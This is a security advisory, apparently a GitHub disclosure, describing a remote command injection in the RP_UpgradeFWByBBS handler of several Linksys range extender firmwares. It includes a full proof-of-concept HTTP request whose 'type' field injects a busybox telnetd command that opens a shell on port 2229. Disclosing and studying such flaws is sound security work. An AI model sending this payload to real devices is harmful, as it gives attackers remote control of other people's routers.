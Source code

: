 # Linksys Vulnerability

Vendor:Linksys

Product:RE6500、RE6250、RE6300、RE6350、RE7000、RE9000

Version:RE6500(1.0.013.001)

RE6250(1.0.04.001)

RE6300(1.2.07.001)

RE6350(1.0.04.001)

RE7000(1.1.05.003)

RE9000(1.0.04.002)

Type:Remote Command Execution

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)

> This vulnerability affects many products, according to our observation, including the latest products such as RE6300、RE7000, etc.
>
> This vulnerability reporting environment is for RE6500



## Vulnerability description

We found an command Injection vulnerability in Linksys router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `mod_form.so` binary:

In `RP_UpgradeFWByBBS` function, `type、ch、ssidhex、security、extch、pwd、mode、ip、nm、gw` is directly passed by the attacker, so we can control the `type、ch、ssidhex、security、extch、pwd、mode、ip、nm、gw` to attack the OS.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `type` as **';busybox telnetd -l /bin/sh -p 2229;'** , and the router will excute it,such as:

```http
POST /goform/RP_UpgradeFWByBBS HTTP/1.1
Host: 192.168.2.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 95
Origin: http://192.168.2.2
Connection: close
Referer: http://192.168.2.2/wireless/wireless_basic.shtml
Cookie: session_id=8jLBF5jiSgEPRUecxpezB6yxBUH6fykn
Upgrade-Insecure-Requests: 1

type=';busybox telnetd -l /bin/sh -p 2229;'&ch=&ssidhex=&security=&extch=&pwd=&mode=&ip=&nm=&gw
```



## Result

Get a shell!

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

